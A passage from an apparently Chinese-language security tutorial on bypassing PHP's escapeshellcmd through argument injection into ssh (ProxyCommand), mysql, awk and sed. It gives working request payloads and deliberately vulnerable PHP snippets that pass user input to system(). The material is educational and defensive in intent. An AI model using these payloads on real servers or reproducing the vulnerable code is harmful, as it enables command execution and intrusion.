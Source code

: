 

### ssh


印象中曾经Gitlab就有过类似的漏洞，导入项目那里填的url为`ssh://-oProxyCommand=id`，就把`ProxyCommand`参数注入到命令中，放在php这里只需访问`http://127.0.0.1/?cmd=-oProxyCommand%3d%27touch+test%27+root%40localhost`。

```php
<?php

system("ssh ".escapeshellcmd($_GET['cmd']));

?>
```



### mysql


mysql的`-e`参数可以执行命令，但是因为反斜杠会被`escapeshellcmd`转义，所以只能应用在其他场景，例如红蓝对抗中绕过命令白名单执行命令或者是`escapeshellarg`。

```php
<?php

system("mysql -uroot -proot -e '\\! id'");

?>
```



### awk


awk也类似，需要用到括号

```php
<?php

system("cat /etc/passwd | awk 'system(\"id\")'");

?>
```



### sed


sed的命令执行很简单，只需访问`http://127.0.0.1/?cmd=%271e+exec+id%27`，`1e exec id`其实执行的是sed的命令，在第一行后执行`id`命令，感觉类似`preg_replace`的`/e`代码执行。但是奇怪的是man手册里没有提到这个`e`命令，也搜不到有关的信息，我也是在一个插件里面找到这个利用方法，有知道的师傅求告知。

```php
<?php
    
system("cat /etc/passwd | sed ".escapeshellcmd($_GET['cmd']));

?>
```
